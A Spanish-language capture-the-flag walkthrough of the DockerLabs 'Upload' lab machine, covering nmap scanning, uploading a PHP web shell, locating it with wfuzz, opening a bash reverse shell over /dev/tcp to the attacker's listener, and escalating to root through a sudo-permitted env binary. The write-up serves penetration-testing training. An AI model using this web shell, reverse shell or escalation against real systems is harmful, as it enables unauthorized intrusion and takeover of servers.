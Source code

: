 ![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-banner.png)

[Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos con un escaneo de nmap a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

El puerto 80 corresponde a un servicio de http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un escaneo sobre este con un conjunto de scripts basicos de reconocimiento que trae por defecto nmap.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
Guiandonos por el escaneo podemos ver que dentro del puerto 80 se aloja una pagina web que tal parece nos dejara subir archivos a la maquina.
Hora de visualizar la pagina web.

![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo php con el que podamos ejecutar comandos atraves de un paramentro. Y es justo lo que haremos.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

Despues de crear el archivo lo subiremos a la web. Y ahora tenemos que encontrar la ruta en donde se asubido nuestro archivo.

Para ello, haremos uso de wfuzz para buscar esa ruta o directorio en donde deberia estar nuestro archivo test.php.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

Si revisamos el directorio que nos ha econtrado llamado "uploads", podremos oberservar que ahi se encuntra alojado nuestro archivo test.php.

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando "id" en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando "id" por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con netcat por el puerto 443.
```shell
nc -nlvp 443
```
Y hacemos la siguiente peticion cambiando el "&" por su expresion en URL, un %26, para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario www-data.

## Escalada de privilegios

Comenzamos ejecuntadno un "sudo -l" para ver si exiten algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que podemos ejecutar el comando "env" como usuario root. Por ende, ejecutamos una bash atraves del comando env con ayuda de un sudo.
```shell
sudo env /bin/bash
```

![image](https://github.com/Crisstianpd/CTFs/blob/f45ffec0d097da4e06089b4f4224cc077d4140cd/DockerLabs/Easy/Upload/imgs/upload-img5.png)
Y comprobamos finalmente atraves de un whoami he id que ya nos econtramos como usuario root.

Y de esta forma hemos resuelto la maquina Upload de DockerLabs.







